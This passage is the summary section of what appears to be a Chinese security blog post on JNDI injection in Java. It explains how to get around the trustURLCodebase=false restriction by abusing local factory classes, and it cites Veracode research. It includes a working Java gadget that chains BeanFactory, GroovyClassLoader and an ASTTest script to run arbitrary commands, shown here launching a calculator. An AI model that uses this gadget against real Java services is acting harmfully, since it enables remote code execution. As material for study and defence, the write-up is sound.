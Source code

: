 ![a.gif](/hexblog/imgs/211220/02.gif)


### 4.小结

本文通过实例演示介绍了如何绕过`trustURLCodebase=false`的场景，从客户端执行逻辑出发，主要思路就是既然远程的class不可性，那就从目标服务器中去找一个满足条件的class，来执行注入代码

要满足我们注入条件的class，需要有下面这个关键要素

- `javax.naming.spi.ObjectFactory`的子类
- `getObjectInstance`实现类中存在执行目标代码的场景

此外就是借助脚本引擎来动态执行代码，本文是借助js，当然也可以考虑Groovy，如下

```java
// 如果是win系统，exec的传参直接是 calc 即可；下面是macos的执行
ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=parseClass"));
String script = "@groovy.transform.ASTTest(value={\n" +
    "    assert java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")\n" +
    "})\n" +
    "def x\n";
ref.add(new StringRefAddr("x",script));
```

看到这里其实就会有个疑问点，常见的注入代码执行有哪些case呢？除了上面的脚本执行，还有别的么？且看下文


**相关博文**


本文主要思路来自于，欢迎有兴趣的小伙伴查看原文 * [Exploiting JNDI Injections in Java | Veracode blog](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
